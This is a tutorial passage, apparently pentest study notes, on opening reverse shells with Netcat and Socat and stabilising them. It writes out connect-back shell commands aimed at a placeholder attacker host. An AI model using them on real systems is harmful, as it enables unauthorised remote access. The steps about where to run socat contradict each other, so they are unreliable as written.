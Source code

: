 - **Connecting to a Listener**:

  ```bash
  socat TCP:<target-ip>:4444 EXEC:/bin/bash
  ```

  This command connects to a Socat listener on the target IP and port 4444, executing `/bin/bash`.

### Socat Shell Stabilisation

Socat can create a more stable and interactive shell compared to Netcat. Here’s a command for achieving this:

```bash
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

- **Options Explained**:
  - `pty`: Allocates a pseudoterminal, stabilising the shell.
  - `stderr`: Ensures error messages are shown.
  - `sigint`: Passes Ctrl+C commands to the subprocess.
  - `setsid`: Runs the process in a new session.
  - `sane`: Normalises the terminal.

---

### Using Netcat and Socat Together

Netcat is initially used to establish a basic connection to the compromised system, which provides a non-interactive shell. Once this basic connection is established, the socat command is used to upgrade the session to a fully interactive terminal. This is achieved by linking to the listener running on the attacker's machine and creating an interactive bash session with additional options to ensure terminal stability and proper handling of input/output.

#### Example Workflow

1. **Establish a Basic Connection with Netcat**:

   On the attacker's machine, set up a listener:

   ```bash
   nc -lvp 4444
   ```

   On the target machine, connect back to the attacker:

   ```bash
   nc <attacker-ip> 4444 -e /bin/bash
   ```

2. **Upgrade to an Interactive Shell with Socat**:

   On the attacker's machine, after receiving the non-interactive shell, execute the following command to set up a more stable interactive shell:

   ```bash
   socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
   ```

   This command creates an interactive bash session with enhanced stability and proper handling of terminal input/output.
